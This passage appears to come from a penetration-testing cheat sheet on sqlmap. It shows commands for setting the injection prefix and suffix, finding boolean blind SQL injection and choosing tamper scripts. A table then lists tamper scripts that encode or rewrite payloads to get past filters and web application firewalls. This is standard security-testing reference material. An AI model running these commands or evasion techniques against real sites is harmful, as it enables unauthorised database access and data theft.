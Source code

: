 ```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

## Prefix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```

## Help finding boolean injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```

## Tamper

Remember that **you can create your own tamper in python** and it's very simple. You can find a tamper example in the [Second Order Injection page here](second-order-injection-sqlmap.md).

```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```

| Tamper                       | Description                                                                                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                           |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                    |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                              |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                       |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                  |
| concat2concatws.py           | Replaces instances like 'CONCAT(A, B)' with 'CONCAT\_WS(MID(CHAR(0), 0, 0), A, B)'                                                 |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded)                                                     |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded). "%u0022"                           |
| charunicodeescape.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded). "\u0022"                           |
| equaltolike.py               | Replaces all occurances of operator equal ('=') with operator 'LIKE'                                                               |
| escapequotes.py              | Slash escape quotes (' and ")                                                                                                      |
| greatest.py                  | Replaces greater than operator ('>') with 'GREATEST' counterpart                                                                   |
| halfversionedmorekeywords.py | Adds versioned MySQL comment before each keyword                                                                                   |
| ifnull2ifisnull.py           | Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'                                                                  |
| modsecurityversioned.py      | Embraces complete query with versioned comment                                                                                     |
| modsecurityzeroversioned.py  | Embraces complete query with zero-versioned comment                                                                                |
| multiplespaces.py            | Adds multiple spaces around SQL keywords                                                                                           |